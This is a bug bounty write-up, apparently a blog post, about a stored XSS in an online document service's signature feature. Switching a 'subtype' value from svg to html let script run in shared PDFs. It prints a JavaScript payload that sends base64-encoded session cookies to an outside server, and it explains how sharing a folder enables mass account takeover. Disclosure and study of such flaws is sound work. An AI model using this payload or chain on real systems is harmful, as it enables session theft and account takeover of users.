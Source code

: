 ```yaml
---
layout: post
title:  "Infected signature in PDF document leads to mass account takeover"
tags: [web, hacking, realstory]
image: "/assets/img/malicious-pdf.jpg"
categories: [bugbounty]
---
```


This article is about a vulnerability that I discovered in a company that I unfortunately cannot name. This company offers a service where other companies can write and share documents online. The finaly impact made it possible for me to perform a mass account take over.


## The target feature

During my testing as a bug bounty hunter, I discovered a feature that allowed a user to add a customized digital hand-drawn signature. The signature could then later be added to PDF documents. When I first came across this feature, I had a question in mind. How can this feature record and visualize my hand drawing which is then generated into a signature?
I quickly came up with a theory and the only thing that was on my mind was SVG. This function must use some form of mouse movement tracking and then convert it to SVG code which later generates the digital signature. I analyzed my Burp Suite proxy history and discovered that my theory was actually correct. The signature had recorded my mouse movement on the client side and generated an SVG code. This code was then sent to the backend in a JSON POST request which allowed it to be stored presumably in a database relative to the current user I was logged in as.


## The vulnerability

For some time with the feature, my first goal was to trigger some kind of sign that the feature was vulnerable by trying to infect the SVG code to run JavaScript, which would result in a stored cross site scripting (XSS) within the PDF document. I couldn't run any JavaScript from the tests I did but instead my payloads made the editor crash. I started to ask myself how it was coded in the back-end and starting to make sense of the other parameters that was included in the JSON body. I hadn't noticed one important parameter named `subtype` parameter which had the value set to `svg`. I changed it to `html` and wrote a basic XSS payload, base64 encoded it and sent the HTTP request. I took the signature and added it to my PDF document in the editor and it fired. Great! Now we have a stored XSS vulnerability in the PDF document and it's time to move on to stage two - exploitation and impact.

## Exploitation

To exploit an XSS and really show the impact. You first need to check some basics such as : 

- Can our user session be read by JavaScript?
- Is our session or any key/token stored on a page?
- Is there any action we can do in our settings that can be done without entering our password?

Fortunately for me, all of these were true. The session of our logged in user was not using the HttpOnly flag which allows client-side JavaScript to read our session. I was able to simply create a JavaScript exploit code to hijack the session from the victim and send the session in base64 form to my own server.

### Payload
The payload (_exploit code_) I used is shown below:
```javascript
const brumens=document.createElement('img');
brumens.src=`https://myserver.com/${btoa(document.cookie)}`;
document.body.appendChild(brumens)"
```

Now that we had our malicious PDF document ready, we had to pass it in a clever way to our victim to avoid social engineering. The application I was hacking had one main feature that allowed companies to use its service and work as a team in shared folders with a very interesting behavior. If someone shared a resource (_document/folder_) with you, it would appear in your sidebar without you having to accept the shared resource. This will be a great way to send our malicious PDF document. I made a folder and added the PDF document to it, then shared it with the Victim (_My other test account_). As expected, the victim had the folder in the sidebar if the victim simply clicks on this shared PDF document in the folder I would have full control over their account as their session will be sent to my own server. Even more impactful is that I don't have to just share it to one person at a time. Instead, I could share my malicious folder to an entire organization or team and everyone who would click the PDF would give out their logged in sessions to me resulting in a mass account take over.